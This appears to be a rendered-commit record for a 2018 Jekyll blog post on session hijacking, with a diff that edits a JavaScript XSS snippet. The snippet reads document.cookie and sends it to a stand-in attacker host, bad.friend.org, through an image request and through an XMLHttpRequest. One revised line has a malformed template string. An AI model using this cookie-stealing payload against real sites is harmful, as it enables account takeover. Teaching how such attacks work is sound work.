

Before and after one commit to wsec/basaam0.github.io, a Jekyll site: the page built from _posts/2018-02-18-hijacking.md, in a window 1280 px wide and 900 px high, scrolled down 494 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Fix JS XSS encode function

```diff
--- a/_posts/2018-02-18-hijacking.md
+++ b/_posts/2018-02-18-hijacking.md
@@ -17,16 +17,16 @@ For the code snippet below, we assume your server is accessible at the domain `b
 
 {% highlight javascript linenos %}
 
-let yourCookie = encode(document.cookie);
+let yourCookie = encodeURI(document.cookie);
 
 // retrieve an image from the server, but send the victim's cookies as well.
-let url = `http://bad.friend.org/picture.jpg?cookie=${yourCookie}`;
-document.getElementById('image').src = url;
+let url = `http://bad.friend.org/picture.jpg?$yourCookies={yourCookie}`;
+document.getElementsByTagName('image')[0].src = url;
 
 // AJAX - Unnoticed by the typical user, low-profile payload
 
 // string template https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals
-url = `http://bad.friend.org/gimmie?cookie=${yourCookie}`;
+url = `http://bad.friend.org/gimmie?yourCookies=${yourCookie}`;
 let xhr = new XMLHttpRequest();
 xhr.open('GET', url, true);
 xhr.send();
```
